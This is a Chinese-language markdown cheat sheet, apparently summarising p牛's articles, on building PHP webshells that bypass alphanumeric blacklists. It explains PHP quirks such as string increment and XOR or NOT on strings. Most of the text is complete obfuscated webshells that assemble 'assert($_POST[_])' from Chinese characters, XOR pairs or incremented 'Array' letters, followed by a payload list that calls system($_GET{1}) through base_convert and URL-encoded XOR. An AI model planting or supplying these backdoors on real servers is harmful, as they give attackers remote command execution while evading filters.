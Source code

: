 # webshell绕过黑名单

根据p牛写的文章总结+上自己的一些发现

 https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html 

 https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html 

 https://xz.aliyun.com/t/5677 



## php特性

1. Php的经典特性“Use of undefined constant”，会将代码中没有引号的字符都自动作为字符串，7.2开始提出要被废弃，不过目前还存在着 

2. 字符串++,会改变字符串的最后一个字符
3. 两个字符串位操作,会按顺序进行位操作,若长度不同,最终长度和短的那个相同





## 思路

1. 确认可用字符，通过变换得到新的字符

2. 利用其它环境来实现命令执行



## 收集可用字符

`print([])=>Array`

`print((100000000000000000){3})=>E`

`''=='' =>true=>1`





## 变换方法

### 位运算符

通过一系列运算将某个字符转为其他字符



(~%8F%97%8F%96%91%99%90)()=>phpinfo()



也可以通过 利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s` 



p牛的例子

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



还有一个就是目录下的字符合成



### ++$a

`$a='b';$a++;print($a)`=>c

利用`[]`来生成Array,来获得字符

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```





## payload收集

```php
$pi=base_convert;$pi(1751504350,10,36)(${$pi(1115654,10,36)^((100).(1))}{1});
#system($_GET{1})
${%A0%B8%BA%AB^%ff%ff%ff%ff}{%ff}();#urldecode一下
#$_GET['\xff']();

```

